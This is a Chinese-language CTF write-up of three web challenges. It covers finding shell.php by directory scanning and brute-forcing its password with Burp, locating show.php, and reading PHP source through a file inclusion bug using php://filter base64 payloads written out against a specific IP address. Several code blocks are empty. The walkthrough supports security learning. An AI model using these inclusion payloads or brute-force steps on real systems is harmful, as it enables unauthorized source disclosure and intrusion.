啥提示都没有，只有url有个提示webshell，试着扫一下后台

发现shell.php
进去要输入密码才能看到flag，不是sql，只能burp爆破密码，爆破出来密码是hack
Trim的日记本
看着像是sql二次注入，但是死活找不到注入点，id一直不知道处理，试着扫一下后台

访问一下show.php

直接给出了flag
文件上传2
看页面像是文件上传，但是尝试上传png文件，jpg文件都上传不了，再看看url有个op参数，看着有点像是文件包含，试着用php伪协议读一下文件看看能不能读出来，payloads:
http://120.24.86.145:9011/?op=php://filter/read=convert.base64-encode/resource=index
这里不用加php后缀名，读出了index.php的base64源码
base64解码得
1 |
|
再读取home.php，http://120.24.86.145:9011/?op=php://filter/read=convert.base64-encode/resource=home
1 |
|
发现又包含了common.php，不急，先读upload.php的源代码，http://120.24.86.145:9011/?op=php://filter/read=convert.base64-encode/resource=upload.php
1 |
|
再看一下common.php，http://120.24.86.145:9011/?op=php://filter/read=convert.base64-encode/resource=common
1 |
|
可以看出我们上传文件首先对上传文件类型进行检查，检查是不是png类型的文件，如果是，则重定向到show.php
那么我们再看看show.php的源代码
http://120.24.86.145:9011/?op=php://filter/read=convert.base64-encode/resource=show
1 |
|
看不出所以然，即使最后上传成功文件，也没显示flag，那么直接输入op=flag，发现没有提示错误，说明有这个文件，那么就同样利用php://filter读取源代码
http://120.24.86.145:9011/?op=php://filter/read=convert.base64-encode/resource=flag
解码得
1 |
|